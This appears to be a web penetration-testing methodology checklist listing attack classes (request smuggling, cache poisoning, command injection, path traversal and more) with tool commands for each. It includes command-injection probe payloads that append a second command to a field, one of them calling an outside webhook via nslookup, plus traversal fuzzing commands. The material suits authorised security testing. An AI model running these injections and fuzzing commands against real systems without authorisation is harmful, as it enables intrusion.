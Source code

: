 # Methodology

## Proxies
- ☐ Abusing hop-by-hop headers
```bash
// Tool hbh-header-abuse-test
for HEADER in $(cat /usr/share/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers); do python3 hbh-header-abuse-test.py -u <url> -x "$HEADER" -v; :'sleep 1'; done
```
- ☐ Cache Poisoning/Cache Deception
```bash
// Tool Web-Cache-Vulnerability-Scanner
go install -v github.com/Hackmanit/Web-Cache-Vulnerability-Scanner@latest
cp go/Web-Cache-Vulnerability-Scanner tools/Web-Cache-Vulnerability-Scanner/wcvs
cd tools/Web-Cache-Vulnerability-Scanner/
./wcvs -u <url> -hw wordlists/headers -pw wordlists/parameters -f
```
- ☐ HTTP Request Smuggling 
```bash
// Burp - HTTP Request Smuggler
- Right click on a request and click Extensions > HTTP HTTP Request Smuggler > Smuggle Probe.

// Tool Smuggler by gwen001
wget https://raw.githubusercontent.com/gwen001/pentest-tools/master/smuggler.py
python3 smuggler.py -u <url> -v 3
```
- ☐ H2C Smuggling
```
// Tool h2csmuggler
python3 h2csmuggler.py -x <url> -t --threads 5 -v
```
- ☐ Uncovering Cloudflare
- ☐ XSLT Server Side Injection

## User input
### Reflected Values
- ☐ Client Side Template Injection (Like SSTI)
- ☐ Command Injection
```
// Tool commix
commix -r <REQUESTFILE> -p <TEST_PARAMETER>

// Test delay
original_cmd_by_server;sleep+5
original_cmd_by_server&&sleep+5
original_cmd_by_server|sleep+5
original_cmd_by_server||sleep+5

// Test when no effect on the application's response
original_cmd_by_server;nslookup+<webhook>
```
- ☐ CRLF
```
// Tool crlfuzz
crlfuzz -u <url>
```
- ☐ Dangling Markup
- ☐ File Inclusion/Path Traversal
```
// Fast Fuzzing
wfuzz -c -w /usr/share/wfuzz/wordlist/Injections/Traversal.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
// Deep Fuzzing (recommend)
wfuzz -X GET -c -w file_inclusion_linux.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
wfuzz -X POST -c -w file_inclusion_linux.txt --hw 0 -d "foo=FUZZ" http://10.10.10.10/nav.php

// Can use Burp Active Scanner
```
- ☐ Open Redirect (Detected by Burp Scanner)
- ☐ Prototype Pollution to XSS
- ☐ Server Side Inclusion/Edge Side Inclusion (Detected by Burp Scanner)
- ☐ Server Side Request Forgery
- ☐ Server Side Template Injection
- ☐ Reverse Tab Nabbing
- ☐ XSLT Server Side Injection
- ☐ XSS
- ☐ XSSI
- ☐ XS-Search


